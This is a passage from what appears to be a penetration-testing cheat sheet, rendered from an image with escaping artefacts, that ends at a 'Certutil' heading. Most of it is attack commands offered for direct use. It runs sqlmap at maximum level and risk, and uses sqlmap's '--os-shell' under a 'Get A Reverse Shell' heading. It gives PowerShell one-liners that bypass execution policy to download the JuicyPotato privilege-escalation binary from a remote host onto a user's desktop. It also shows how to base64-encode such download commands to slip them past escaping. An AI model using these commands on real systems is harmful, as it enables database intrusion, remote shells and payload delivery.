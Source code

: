 
sqlmap \-\-all \-r post\_request\.txt \-\-batch \-\-level=5 \-\-risk=3



#### Get A Reverse Shell (MySQL) 


sqlmap \-r post\_request\.txt \-\-dbms "mysql" \-\-os\-shell

## WebApp Paths 




\-\-\- 


[https://github.com/pwnwiki/webappdefaultsdb/blob/master/README.md](#https://github.com/pwnwiki/webappdefaultsdb/blob/master/README.md)


## Powershell 




\-\-\- 




### As Cmd.exe Command 


powershell \-ExecutionPolicy bypass \-noprofile \-c \(New\-Object System\.Net\.WebClient\)\.DownloadFile\('http://192\.168\.0\.1:80/winprivesc/JuicyPotato\.exe','C:\\Users\\john\\Desktop\\juicy\.exe'\)


\-\-\- 




### Encode Command for Transfer 


Very helpful for chars that need to be escaped otherwise\.

$Command = '\(new\-object System\.Net\.WebClient\)\.DownloadFile\("http://192\.168\.0\.1:80/ftp\.txt","C:\\Windows\\temp\\ftp\.txt"\)' 
$Encoded = \[convert\]::ToBase64String\(\[System\.Text\.encoding\]::Unicode\.GetBytes\($command\)\) 
powershell\.exe \-NoProfile \-encoded $Encoded


\-\-\- 



## Certutil 



